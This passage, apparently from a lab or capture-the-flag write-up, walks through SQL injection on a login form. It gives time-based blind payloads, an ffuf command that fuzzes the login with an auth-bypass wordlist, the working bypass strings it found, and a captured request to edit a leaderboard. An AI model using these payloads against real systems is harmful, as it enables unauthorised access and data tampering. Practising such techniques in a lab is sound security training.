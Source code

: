 ```sql
' RLIKE SLEEP(3) -- // explicit space after the comment (--) 
' RLIKE SLEEP(3) -- - // clearer
```

#### Further testing

Utilizing `ffuf`:

> Note: In MySQL, `#` is a comment

> Wordlist from [https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth\_Bypass.txt](https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt)

{% code overflow="wrap" %}
```sh
$ ffuf -u http://<target>functions.php -w auth_wordlist.txt -X POST -d "username=FUZZ&password=1&function=login" -H "Content-Type: application/x-www-form-urlencoded"
```
{% endcode %}

There should be some output(s) that returns a larger response size than the rest.  The `-fs` flag can be used to filter this.

Found payload:

```sql
' OR 'x'='x'#  
' OR 'x'='x';-- - // manually tested
```

{% embed url="https://github.com/payloadbox/sql-injection-payload-list" %}

#### (2) Edit leader board

After the successful injection on the login form, we are able to view the dashboard page, which presents us with a method to edit the leader board table:

```http
POST /edit_leaderboard.php HTTP/1.1
Host: 10.10.244.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.10.175.148
Connection: keep-alive
Referer: http://10.10.175.148/edit_leaderboard.php?rank=1&country=USA
Cookie: PHPSESSID=4rtpdvbsmkvqquno4am9ij5h6q
Upgrade-Insecure-Requests: 1
Priority: u=0, i

rank=1&country=1&gold=1&silver=1&bronze=1
```
